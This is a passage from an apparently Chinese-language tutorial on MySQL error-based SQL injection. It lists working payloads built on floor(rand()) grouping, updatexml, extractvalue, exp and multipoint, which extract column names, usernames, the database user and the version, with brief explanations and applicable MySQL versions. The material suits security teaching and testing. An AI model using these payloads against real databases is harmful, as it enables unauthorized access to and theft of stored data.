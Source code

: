 - 爆破字段名

```sql
and (select 1 from (select count(*),concat((select column_name from information_schema.columns where table_schema=database() and table_name='users' limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a);
```

- 爆破数据

```sql
and (select 1 from (select count(*),concat((select username from users limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a);
```



##### 6.1.2 updatexml

```sql
and (updatexml(1,concat(0x7e,(select user()),0x7e),1));

```

函数报错原因:

因为函数插入参数的时候，使用了`~`,`^`的ASCII编码，分别为`0x7e`,`0x5e`，这类特殊字符在使用这些函数的时候都是非法的，因此会产生报错信息。而在报错的是哦户，SQL的解析器会自动解析SQL语句，然后造成SQL语句的执行。



##### 6.1.3. extractvalue

```sql
and (extractvalue(1,concat(0x7e,(select user()),0x7e)));	
```

第二个参数 xml中的位置是可操作的地方，xml文档中查找字符位置是用 /xxx/xxx/xxx/…这种格式。如果我们写入其他格式，就会报错。并且会返回我们写入的非法格式内容，而这个非法的内容就是我们想要查询的内容。正常查询 第二个参数的位置格式 为 /xxx/xx/xx/xx ,即使查询不到也不会报错。原理和`updatexml`一样。



##### 6.1.4. exp 

**适用版本：mysql5.5.44-5.5.47.**

`exp`是以e为底的指数函数，但是太大会溢出。`exp(709)`会产生溢出，报错。

```sql
and exp(~(select * from (select database())a));
```



##### 6.1.5. multipoint

**适用版本：mysql版本号在5.5.44 - 5.7.17**

mysql有些几何函数，例如geometrycollection()，multipoint()，polygon()，multipolygon()，linestring()，multilinestring()，这些函数对参数要求是形如(1 2,3 3,2 2 1)这样几何数据，如果不满足要求，则会报错。



```sql
and multipoint ((select * from(select * from (select version())a)b);
```
